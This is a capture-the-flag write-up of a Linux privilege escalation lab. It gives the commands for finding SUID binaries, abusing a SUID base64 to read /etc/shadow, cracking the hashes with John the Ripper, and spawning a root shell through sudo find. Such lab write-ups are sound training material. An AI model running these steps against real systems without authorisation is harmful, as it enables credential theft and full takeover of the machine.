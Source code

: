 # Linux privilege escalation - Capstone Challenge Writeup:

## Introduction
By now you have a fairly good understanding of the main privilege escalation vectors on Linux 
and this challenge should be fairly easy.
You have gained SSH access to a large scientific facility. 
Try to elevate your privileges until you are Root.

## Steps

### Step 1: Initial Access and Enumeration
1. **SSH Login**: Logged into the target machine as user `leonard` with the IP `10.x.x.x`.
2. **SUID Check**:
   - Ran the following command to search for files with the SUID bit set:

     ```bash
     find / -type f -perm -04000 -ls 2>/dev/null
     ```

   - Found the `base64` binary with special permissions, which could be exploited to read files.

### Step 2: Exploiting `base64` for File Access
1. **Moving to Directory**:
   - Navigated to `/usr/bin` directory.

2. **Reading Sensitive Files**:
   - Used the command from GTFOBins to read the contents of `/etc/shadow` and `/etc/passwd`:

     ```bash
     ./base64 "/PATH/FILE" | base64 --decode
     ```

   - Copied the contents of `/etc/shadow` and `/etc/passwd` files for password cracking.

### Step 3: Password Cracking
1. **Unshadowing Files**:
   - Ran the following on my machine to combine the `passwd` and `shadow` files:

     ```bash
     unshadow passwd.txt shadow.txt > passwords.txt
     ```

2. **Cracking with John the Ripper**:
   - Used John the Ripper with the `rockyou.txt` wordlist to crack the password:

     ```bash
     john --wordlist=rockyou.txt passwords.txt
     ```

   - Cracked the password for the user `messy`.

### Step 4: Privilege Escalation to User `messy`
1. **Switching User**:
   - Logged in as `messy` using the cracked password:

     ```bash
     su messy
     ```

2. **Flag 1**:
   - Located `flag1.txt` in the `Documents` folder of the `messy` user.

### Step 5: Root Privilege Escalation
1. **Checking Sudo Permissions**:
   - Ran `sudo -l` and found that `find` can be executed with sudo privileges without restriction.

2. **Exploiting `find` for Root Shell**:
   - Used the following command to get a root shell:

     ```bash
     sudo find . -exec /bin/sh \; -quit
     ```

3. **Flag 2**:
   - Navigated to the `/rootflag` directory and found `flag2.txt`.
